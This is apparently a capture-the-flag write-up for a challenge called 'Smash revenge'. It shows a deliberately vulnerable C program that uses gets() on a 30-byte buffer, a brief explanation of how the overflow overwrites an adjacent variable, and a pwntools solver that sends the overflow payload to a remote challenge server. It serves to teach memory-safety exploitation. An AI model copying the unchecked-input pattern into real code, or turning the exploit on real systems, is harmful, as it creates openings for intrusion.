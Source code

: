 ## Smash revenge
![challenge](../images/Smash_Rev.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[30];
    int target = 0;
    printf("go on :");
    gets(buf);
    if (target == 0xdeadbeef){
        system("cat flag.txt");
    }
    return 0;
} 
```

### Overview
From the code we can understand that the program has a variable called "buf" and assigns a buffer of 30 chars to it. Then there’s another variable called "target" and it’s value is 0. ```gets(buf)``` is dangerous function and should not be used. It operates on the char type buffer and does no checks against overflowing the size assigned to this buffer. As a result if the input exceeds the buffer it will overwrite the "target" variable.

### Sovler
```py
from pwn import *

elf = context.binary = ELF('main')
p = remote("20.216.40.184", 10005)

pay = b'A'*44
pay += p64(0xdeadbeef)

p.sendline(pay)
p.interactive()
p.close()
```
